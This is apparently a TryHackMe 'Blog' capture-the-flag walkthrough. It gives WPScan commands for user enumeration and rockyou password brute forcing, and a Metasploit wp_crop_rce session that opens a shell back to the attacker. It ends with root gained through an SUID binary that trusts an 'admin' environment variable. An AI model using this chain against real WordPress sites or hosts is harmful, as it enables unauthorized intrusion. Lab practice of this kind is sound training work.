

# Blog CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Blog** CTF challenge on [TryHackMe](https://tryhackme.com/room/blog). 
---

after scanning we found 4 open ports: 80, 139, 22,445

we know about WordPress from nmap scan

running feroxbuster scan


running WPScan to enumerate plugins and usernames  

```
wpscan --url http://10.10.X.X -v --enumerate vp,u --no-update
```


we found `bjoel` and `kwhell`

now we can try to brute force them

```
wpscan --url http://10.10.X.X -v --usernames kwheel --paswords /usr/share/wordlists/rockyou.txt --no-update
```



and we found credentials

it worked we are logged in and we see dashboard


after googling `wordpress 5.0 exploit` i found shell upload with `metasploit`


```
msf6 > use exploit/multi/http/wp_crop_rce
msf6 > set RHOST blog.thm
msf6 > set USERNAME kwheel
msf6 > set PASSWORD c...
msf6 > set LHOST 10.14.X.X
msf6 > run
```

we got shell as `www-data`


we need to find user flag somewhere else


after running linpeas we found unknown SUID file `/usr/sbin/checker`


running the file


we need to analyise the file deeper, using strings doesnt give enough clue

after running 

```
ltrace /usr/sbin/checker 
```

we see that the checker file uses getenv("admin")


i tried using `export admin=admin` and then running the script and it works

we got root shell 


now we need to find the flags

i used this find command 

```
sudo find / -type f -name "user.txt" 2>/dev/null

```

user flag is in `/media/usb/user.txt` and root flag in `/root/root.txt`


# MACHINE PWNED
